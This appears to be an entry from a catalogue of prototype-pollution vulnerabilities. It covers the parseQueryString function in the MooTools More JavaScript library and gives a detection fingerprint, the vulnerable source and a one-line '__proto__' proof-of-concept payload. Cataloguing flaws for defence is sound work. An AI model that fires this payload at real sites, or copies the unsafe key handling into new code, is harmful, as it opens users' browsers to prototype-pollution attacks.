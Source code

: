 ## MooTools More

URL: https://github.com/mootools/mootools-more

### JS Fingerprint
```
return (typeof String.parseQueryString != 'undefined')
```

### Vulnerable code fragment

https://github.com/mootools/mootools-more/blob/687363b141c7d6abb89e6716462bbd99545f81e5/Source/Types/String.QueryString.js#L46

```js
  parseQueryString: function(decodeKeys, decodeValues){
    if (decodeKeys == null) decodeKeys = true;
    if (decodeValues == null) decodeValues = true;

    var vars = this.split(/[&;]/),
      object = {};
    if (!vars.length) return object;

    vars.each(function(val){
      var index = val.indexOf('=') + 1,
        value = index ? val.substr(index) : '',
        keys = index ? val.substr(0, index - 1).match(/([^\]\[]+|(\B)(?=\]))/g) : [val],
        obj = object;
      if (!keys) return;
      if (decodeValues) value = decodeComponent(value);
      keys.each(function(key, i){
        if (decodeKeys) key = decodeComponent(key);
        var current = obj[key];

        if (i < keys.length - 1) obj = obj[key] = current || {};
        else if (typeOf(current) == 'array') current.push(value);
        else obj[key] = current != null ? [current, value] : value;
      });
    });

    return object;
  }       
```

### PoC
```
String.parseQueryString('__proto__[test]=test')
```